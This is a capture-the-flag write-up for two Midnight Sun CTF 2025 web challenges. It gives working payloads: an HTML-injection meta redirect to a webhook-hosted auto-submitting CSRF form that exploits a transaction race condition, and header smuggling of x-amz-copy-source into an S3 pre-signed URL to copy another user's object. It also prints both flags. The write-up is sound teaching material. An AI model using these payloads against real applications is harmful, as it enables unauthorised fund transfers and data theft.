+++
title = 'Midnight Sun CTF 2025 Quals - Hackchan, Shot Host'
date = 2025-05-18T19:05:22+05:30
draft = false
tags = ["web","csrf","cloud"]
+++


**tl;dr**

+ Writeup for "Hackchan" and "Shot Host" from MidnightSun CTF Quals.
+ Hackchan - html injection -> meta redirect -> CSRF -> Race Condition
+ Shot Host - Use lambda function to sign `x-amz-copy-source` header into S3 pre-signed URL to copy png containing flag.

<!--more-->

# Introduction

This is a writeup for two of the challenges that I worked on during the [Midnight Sun CTF 2025 Quals](https://play.midnightsunctf.com/challenges) - Hackchan and Shot Host. I'll be walking through my approach towards the challenges during the CTF and also try to cover various solutions shared by other players in the [discord server](https://discord.gg/xMuRxub4CX) post CTF.

## Hackchan
**Challenge points**: 200
**No. of solves**: 41

### Challenge Description
Hackchan is your friendly neighborhood grocery store, with an exclusive loyalty program where points can be redeemed for amazing rewards. The system is said to be bulletproof, but there are whispers of a vulnerability that would allow one into the Billionaire Club by obtaining one billion loyalty points in their Hackchan account.
Tags - clientside, python, web

### Analysis
We are given a [download link](https://s3.eu-north-1.amazonaws.com/dl.hfsc.tf/hackchan_3b560b75.tar.gz) and a URL to access the [challenge](https://hackchan-mjk2mpay.ctf.pro/). On the given website, we have the option to register and login as a new user. Once logged in, we have access to a few functionalities or actions as seen in the get parameter `?action=something`. Since we have access to the source code, we can take a look at that to better understand the application.

There are three services running as per the docker-compose file - web, admin-user and postgres.
1. postgres is initialized with `init.db` which contains table schema, product data and also a default user manager with balance of 999999999
```sql
INSERT INTO users (username, password, is_manager, balance) VALUES
    ('manager', '********REDACTED********', true, 999999999999);
 ```
2. admin-user is the admin bot which navigates to `http://web:8000` and performs the following actions
```js
...
await page.goto('http://web:8000/');
    await page.fill('#username', 'manager');
    await page.fill('#password', '********REDACTED********');
    await page.click('[type="submit"]');
    await page.goto('http://web:8000/?action=order-problems');

    const orders = await page.locator('xpath=//table//a');
    let ordersCount = await orders.count();
    process.stdout.write(`${formattedDate} - ${ordersCount} new orders\n`);

    if (ordersCount === 0) {
      await page.waitForTimeout(5000);
    } else {
      await orders.first().click();
      process.stdout.write(`${formattedDate} - open order\n`);
      await page.waitForSelector('a[class="btn btn-success"]');
      const problemDescription = await page.locator('xpath=//body//div//p[1]').innerText();
      const homeOrigin = new URL(page.url()).origin;
      const problemWords = problemDescription.split(' ');

      for (const word of problemWords) {
        const urlPattern = /^http:\/\/web:8000\//;
        if (urlPattern.test(word) && word !== homeOrigin) {
          const currentProblem = page.url()
          await page.goto(word);
          await page.waitForTimeout(2000);
          await page.goto(currentProblem);
        }
      }

      await page.click('a[class="btn btn-success"]');
      process.stdout.write(`${formattedDate} - delete order\n`);
      await page.waitForSelector('xpath=//h1[text()="Order Problems List"]');
    }
...
```
The part that's most interesting to us is `problemWords` which if it is a url starting with `http://web:8000`, the bot nagivates to it. This allows us to make the bot perform any action which is using `http://web:8000?action=something` and accepts GET parameters.


3. **web** is the where the main challenge code resides. Lets take a quick look at a few interesting actions.
    + order-problem: This is where the user can submit a message which is added to the list at the order-problems action that the manager performs. So this is where we send our playload to the admin
    + faq: Allows the user to send a question which is passed to a faq matching system based on available `faq_data` and then redirects to an answer in the answer/faq folder.
    + transactions-list: Shows list of all transactions with user as sender or receiver
    + create-transaction: Allows user to send LP to another user.
    + delete-account-and-get-flag: This is the action which we need to call but requires us to have 999999999LP balance.

### Exploitation

Now that we have a general idea of the challenge, I like to work backwards from the solution/flag. We need to call the `delete-account-and-get-flag` action which only works if we have balance 999999999 and we are not the manager user.
```js
case 'delete-account-and-get-flag':
    if current_user.balance >= 999_999_999 and not current_user.is_manager and not current_user.is_admin:
        current_user.remove()
        db.session.commit()
        flash('midnight{********REDACTED********}', 'success')
    return redirect('/')
```


New users only have 10LP and we need to find a way to increase that. Since the manager user already has 999999999 balance lets look at how we can get the manager to send that to us and for that lets take a closer look at how transactions work.

```js
case 'create-transaction':
    sender = current_user.id
    recipient_name = request.form.get('recipient')
    if recipient_name:
        if recipient_name != current_user.username:
            recipient = User.query.filter_by(username=recipient_name).first()
            if recipient:
                amount = int(request.form.get('amount'))
                if amount > 0:
                    form_data = dict(request.form)
                    form_data['amount'] = amount
                    del form_data['recipient']
                    form_data['recipient_id'] = recipient.id
                    transaction = Transaction.update_or_create(current_user.id, form_data)
                    if transaction:
                        flash('Transaction has been successfully created and will be processed shortly',
                                'success')
                else:
                    flash('Invalid amount', 'danger')
            else:
                flash('Recipient not found', 'danger')
        else:
            flash('You can\'t send points to yourself', 'danger')
    else:
        flash('Enter a recipient name', 'danger')
    return redirect('/?action=transactions-list')
```
It takes the recipient parameter from request.form which is POST only, hence the report page we saw earlier cannot be used to send a transaction by itself as it only does get request. That is the **first issue** we have to solve.

Looking at the code which updates the balances and performs the transactions, we notice the **second issue** - transaction amounts > 10 will be assigned a status of pending-manual-check and only confirmed transactions will be processed in the `send_transaction()` function. Another thing to notice here is the fact that the schduler interval for both the functions are 0.1 and 0.13, leaving a small race window which will be useful to us later on.
```js
scheduler = APScheduler()

def confirm_transaction():
    with app.app_context():
        pending_transactions = Transaction.query.filter(Transaction.status == 'pending').all()
        for transaction in pending_transactions:
            if transaction.amount <= 10:
                transaction.status = 'confirmed'
            else:
                transaction.status = 'pending-manual-check'
        db.session.commit()

scheduler.add_job(id='confirm_transaction', func=confirm_transaction, trigger="interval", seconds=0.1)

def send_transaction():
    with app.app_context():
        confirmed_transactions = Transaction.query.filter(Transaction.status == 'confirmed').all()

        for transaction in confirmed_transactions:
            sender = User.query.get(transaction.sender_id)
            recipient = User.query.get(transaction.recipient_id)
            if sender and recipient:
                if sender.balance >= transaction.amount:
                    transaction.status = 'sent'
                    if not sender.is_manager:
                        sender.balance -= transaction.amount
                    recipient.balance += transaction.amount
                else:
                    transaction.status = 'rejected'
        db.session.commit()

scheduler.add_job(id='send_transaction', func=send_transaction, trigger="interval", seconds=0.13)

scheduler.start()
```

#### First issue
We need a way to get the manager user to send a POST request to create-transaction action but currently we only have the ability to make the manager send a GET request. So, drilling down on the actions that function using GET request, we land on the faq action. During the CTF I was playing around with it, submitting random questions, the output of which looks like below.

Just to see how different terms in questions will return answers, I supplied "PR" which gave a surprising output.

Using this - [https://hackchan-mjk2mpay.ctf.pro/?action=faq&question=PR%3Ch1%3Etest%3C/h1%3E](https://hackchan-mjk2mpay.ctf.pro/?action=faq&question=PR%3Ch1%3Etest%3C/h1%3E) we are able to get HTML injection but not quite XSS. For our case this will suffice as it is possible for us to use the meta tag to redirect to attacker controlled site where a CSRF payload is hosted.

The reason why this worked is that "PR" is tagged with the label "media" and if you look at the answers folder, there is a `.intermediaries.html.swp` file which contains 'media' in the name. Hence when label "in" file is checked on the faq answers file list, `.intermediaries.html.swp` file is used instead of `media.html` template. Since jinja2 only [autoescapes html for file extensions 'html', 'htm' and 'xml'](https://jinja.palletsprojects.com/en/stable/api/#jinja2.select_autoescape) we get HTML injection.
```js
for file in listdir:
    if label in file:
        template = '/faq/answers/' + file
        context['question'] = question
        break
```
So at this stage, our exploit looks like the following:
1. host the following payload on attacker controlled site/webhook
```html
<html>
    <body>
        <form id="cool" action="http://localhost:5000/?action=create-transaction" method="post">
            <input type="text" name="recipient" value="1234567891">
            <input type="text" name="amount" value="1">
        </form>
        <script defer>
            let form = document.getElementById('cool')
            form.submit()
        </script>
    </body>
</html>
```
2. send the following url as order problem which will be visited by the admin bot
```html
http://web:8000/?action=faq&question=pr%20%3Cmeta%20http-equiv=%22refresh%22%20content=%221;url=http://webhook.site/1f2ca6d7-e5b4-4607-b2f1-26c8b0d9dabe%22%20/%3E
```

Checking the transcation list, we can see that we have received 1LP from the manager 🎊.

Now the problem is that we are not allowed to send more than 10LP and sending 10LP 1000000000 times is just not feasible so onto the next issue.

#### Second issue
Lets take a closer look at the `Transaction.update_or_create` function in `models.py` which is responsible for adding the transactions.
```py
def update_or_create(cls, sender_id, data):
    transaction_id = data.get('transaction_id')
    data['sender_id'] = sender_id
    data['status'] = 'pending'
    if transaction_id:
        del data['status']
        existing_transaction = cls.query.get(transaction_id)
        if existing_transaction:
            if existing_transaction.sender_id == sender_id:
                for key, value in data.items():
                    setattr(existing_transaction, key, value)
        else:
            return None
    else:
        new_transaction = cls(**data)
        db.session.add(new_transaction)

    db.session.commit()
    return existing_transaction if transaction_id else new_transaction
```
Here we can see an extra functionality surrounding "transaction_id". If the data parameter contains the key `transaction_id` we are able to edit attributes of the transaction other than the `status` attribute which sadly gets deleted. `data` parameter is nothing but `dict(form.data)` which is passed from `views.py`. Hence our focus goes towards the other attributes which we can control now, specifically the `amount` attribute.

Like we have noticed before, there is a race window between when `confirm_transaction()` and `send_transaction()` is called. Within this window, if we are able to change the amount of an already confirmed but not completed transaction, we can bypass the <= 10LP limit. So the control flow looks like this:
+ We make the manager create a new transaction with amount = 10 to attacker account.
+ `confirm_transaction()` gets called and `transaction.status` is set to `confirmed`
+ We make the manager send a create-transaction action with the `transaction_id`(transaction id's are incremental) of the above transaction. This request sets the `amount` attribute to 999999999.
+ `send_transaction()` gets called which increases attacker account balance by 999999999
+ We call the `delete-account-and-get-flag` and get flag!
Combining this with the first stage exploit, we get the final solution.

### Final Exploit

1. host the following payload on attacker controlled site/webhook.
```html
<html>
  <body>
    <iframe name="frame1" style="display: none;"></iframe>
    <iframe name="frame2" style="display: none;"></iframe>

    <form id="cool" action="http://web:8000/?action=create-transaction" method="post" >
      <input type="text" name="recipient" value="alfinalfin">
      <input type="text" name="amount" value="2">
    </form>

    <form id="notcool" action="http://web:8000/?action=create-transaction" method="post">
      <input type="text" name="recipient" value="alfinalfin">
      <input type="text" name="amount" value="999999999">
      <input type="text" name="transaction_id" value="11"> <!-- Change transaction id -->
    </form>

    <script defer>
      setTimeout(()=>{document.getElementById('cool').submit();},15)
      setTimeout(()=>{document.getElementById('notcool').submit();},50) // might have to tinker around a bit with timeout interval to hit the race window.
    </script>
  </body>
</html>
```
2. send the following url as order problem which will be visited by the admin bot
```html
http://web:8000/?action=faq&question=pr%20%3Cmeta%20http-equiv=%22refresh%22%20content=%221;url=http://webhook.site/1f2ca6d7-e5b4-4607-b2f1-26c8b0d9dabe%22%20/%3E
```

Wait a few seconds and we can see our balance skyrocket. Call the `delete-account-and-get-flag` action and get flag.

> Flag = midnight{UnL0ck_54v1N6s_t0D4y_w1th_XSS_4nd_r4C3s}

---

## Shot Host

**Challenge points**: 200
**No. of solves**: 41

### Challenge Description
This screenshot hosting platform is a modern web app making heavy use of serverless architecture. No server—no bugs, right? Grab the screenshot with the flag to prove them wrong.
Tags - cloud, web

### Analysis
We are provided with a link - [http://shothost-f8nz7k4n.ctf.pro/](http://shothost-f8nz7k4n.ctf.pro/) and no source code so this is a black-box type challenge. The challenge description hints towards cloud and more specifically towards serverless architecture like [AWS Lambda](https://aws.amazon.com/lambda/) which allows code to run without managing servers, which means no need to provision, administer, or manage the underlying compute resources.

The website provides us with two options - upload file and copy download link. Lets take a closer look at the page source to understand how file upload works.
```js
function fread(file) {
    return new Promise((resolve) => {
        const reader = new FileReader();
        reader.onload = () => {
            resolve(reader.result);
        };
        reader.readAsArrayBuffer(file);
    });
}

let downloadLink;

async function getSignedLinks() {
    const imageInput = document.querySelector("#image-input");
    const file = imageInput.files[0];
    const hash = sha256(await fread(file));
    const lambdaUrl = 'https://fkrr63ahomtqkncb4jlwiao5mi0ubyqk.lambda-url.eu-north-1.on.aws/';
    const xhr = new XMLHttpRequest();
    xhr.open("GET", lambdaUrl, false);
    xhr.setRequestHeader("x-amz-content-sha256", hash);
    xhr.send(null);
    const linkRes = JSON.parse(xhr.responseText);
    const uploadRes = await await fetch(linkRes.upload, {
        method: 'PUT',
        'body': file,
        'headers': {
            'Content-Type': "image/png",
            'x-amz-content-sha256': hash
        }
    });
    imageInput.value = '';
    document.querySelector('#download-link-btn').hidden = false;
    downloadLink = linkRes.download;
    alert("Screenshot uploaded");
}

function copyToClipboard() {
    const ta = document.createElement("textarea");
    ta.textContent = downloadLink;
    document.body.appendChild(ta);
    ta.select();
    document.execCommand("copy");
    document.body.removeChild(ta);
}
```
The above javascript code is found from the page source. `getSignedLinks` is the function which is called when file is uploaded. The function sends a request to lambda url `https://fkrr63ahomtqkncb4jlwiao5mi0ubyqk.lambda-url.eu-north-1.on.aws/` with the sha256 has of uploaded file in the header `x-amz-content-sha256`. Then it parses the JSON response and sends a put request to the `upload` url sent by the lambda function.
Before moving onto the main functionality, another thing I noticed here is that the website provided is hosted on Amazon S3, as indicated by the "Server" response header.

Trying to list the items in this bucket fails as we do not seem to have permissions.

The only operation allowed seems to be `aws s3 cp s3://shothost-f8nz7k4n.ctf.pro/index.html . --no-sign-request` which downloads index.html.

Anyway, that was a dead end so onto the main functionality.

The above image shows the request and response to the lambda function. The two urls which are returned are [S3 Pre-Signed URLs](https://docs.aws.amazon.com/AmazonS3/latest/userguide/ShareObjectPreSignedURL.html) which are used to share objects with time-limited permission to download/upload objects. The lambda function also sends the sha256 hash of the file as a request header which is included in the `X-Amz-SignedHeaders` of the returned `upload` url. This means that the PUT request to upload file needs to have this header with the exact sha256 hash or it will return 403 forbidden `SignatureDoesNotMatch`.

The upload and download url only allow access to the filename(object) generated by the server, which in the above case is `4053.png`, as the signature generated has to match. Since our goal is to get the screenshot/image with the flag, we have to find a way to access other image files in the S3 bucket. The S3 bucket that files are being uploaded to is `shot-host` which again has file listing disabled.

### Exploitation
The first thing I tried doing is removing the `X-Amz-Content-Sha256` header from the request to lambda url and in the response it can be observed that the headers is no longer included in the `X-Amz-SignedHeaders` parameter.

This meant that I am now able to upload and change the object to whatever I want as I'm not limited by the sha256 hash check. This is not that useful in our case but we can conclude that the headers being sent to the lambda function could be our entrypoint.

The above image from [here](https://aws.amazon.com/blogs/compute/securing-amazon-s3-presigned-urls-for-serverless-applications/) seems to be a close enough representation of the scenario we have with Content-MD5 instead of X-Amz-Content-Sha256.
Searching around for other headers which we might be able to send, we can try to prove if headers other than the sha256 header will be accepted by the lambda function to generate a pre-signed URL. `x-amz-meta-filename` is the header I tried which I found [here](https://docs.aws.amazon.com/AmazonS3/latest/userguide/UsingMetadata.html). It's a user-defined object metadata which has no other function here except to help us check whether we can send other headers. This worked and once we upload the file with this header, when we download, we can see this header being returned in the response.


Looking at other `x-amz` headers we can send on the [aws s3 api docs](https://docs.aws.amazon.com/AmazonS3/latest/API/), we can see a [CopyObject](https://docs.aws.amazon.com/AmazonS3/latest/API/API_CopyObject.html) api which works with the `x-amz-copy-source: CopySource` header. This allows us to create a copy of an object that is already stored in the bucket. In our case, if we are able to copy the 1.png(assumed flag is in 1.png cuz object names generated are numeric in nature), we can use the object download url generated to get the flag.

`X-Amz-SignedHeaders` contains the copy-source header we sent meaning, s3 will now accept this header. Next, we have to send a PUT request with an empty request body and the `x-amz-copy-source` header.

Finally, we use the download url generated for our object to get the flag stored in 1.png.


### Final Exploit
1. send request to https://fkrr63ahomtqkncb4jlwiao5mi0ubyqk.lambda-url.eu-north-1.on.aws/ with `x-amz-copy-source: /shot-host/1.png`
2. send empty PUT request to generated S3 pre-signed URL with header `x-amz-copy-source: /shot-host/1.png`
3. send request to the dowload URL received in step 1
> Flag = midnight{x_Amz_x_1_s3E_iD0r_3vEryWher3}